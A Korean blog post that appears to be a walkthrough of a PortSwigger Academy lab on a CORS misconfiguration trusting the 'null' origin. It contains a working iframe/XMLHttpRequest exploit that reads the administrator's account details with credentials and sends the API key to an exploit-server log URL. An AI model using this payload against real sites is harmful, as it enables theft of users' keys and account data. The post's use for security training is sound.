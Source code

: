 ```yaml
---
layout: post
title: "Burp Academy-CORS 취약점: CORS vulnerability with trusted null origin"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, CORS취약점]
toc: true
---
```


# 개요
- [CORS]({% post_url 2023-06-28-CORS-basic %})에 관련된 취약점이다. 
- CORS 취약점에 대한 설명은 [여기]({% post_url 2023-06-27-burp-academy-cors %}) 
- 문제 주소: : https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack
- 난이도: APPRENTICE (쉬움)


# 문제설명
- 서버에는 Origin헤더에 null을 지정해서 보내면 ACAO헤더에 null을 회신해주는 CORS 취약점이 있다. 
- 이 취약점을 이용해서 서버 관리자의 API Key를 얻어내는 자바스크립트 코드를 exploit server를 이용해서 서버로 보낸다. 
- 얻어낸 서버 관리자의 API Key를 제출하면 문제가 풀린다. 

```
This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter
```


# 풀이 
## CORS 취약점이 있는 곳 찾기 
[문제1번]({% post_url 2023-07-04-burp-academy-cors-1 %})과 마찬가지로 `GET /accountDetails` 요청에 CORS 취약점이 있는 것을 확인했다. Origin: null 헤더를 보내면  ACAO헤더에 null을 회신해준다. 

![CORS 취약점 확인](/images/burp-academy-cors-2-1.png)


## exploit 코드 만들기

iframe을 활용해서 exploit 코드를 만든다. 이 코드를 victim에게 실행하게 만들면 될 것이다. 코드를 저장하고 Deliver exploit to victim 버튼을 눌러 사이트 관리자에게 전달한다. 

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a94003d030f6dc582625682005a00a0.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://exploit-0a03002803fd6ddf82a155ea017a005c.exploit-server.net/log?key='+this.responseText;
};
</script>"></iframe>
```

## 억세스 로그를 보고 apiKey를 확인
exploit서버의 억세스 로그를 보면 관리자의 억세스가 확인된다. apiKey를 얻어내서 제출하면 문제가 풀린다. 

![풀이 성공](/images/burp-academy-cors-2-success.png)